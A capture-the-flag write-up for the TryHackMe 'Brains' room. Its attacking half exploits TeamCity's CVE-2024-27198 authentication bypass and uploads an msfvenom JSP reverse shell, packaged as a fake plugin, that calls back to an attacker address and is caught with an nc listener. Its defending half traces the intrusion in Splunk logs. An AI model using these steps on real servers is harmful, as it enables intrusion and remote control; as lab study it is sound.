


**CTF**: [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 -sV $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `2023.11.3`. 


Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:



Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.


## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section.
<!--

that looks as follows:


-->
I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.


## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:


**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.


### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: [REDACTED].


### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package [REDACTED] looks like something malicious.




### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

```
[2024-07-04 22:08:31,921]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "AyzzbuXY" was updated by "user with id=11" with comment "Plugin was uploaded to /home/ubuntu/.BuildServer/plugins/AyzzbuXY.zip"
```

The malicious plugin name is [REDACTED].


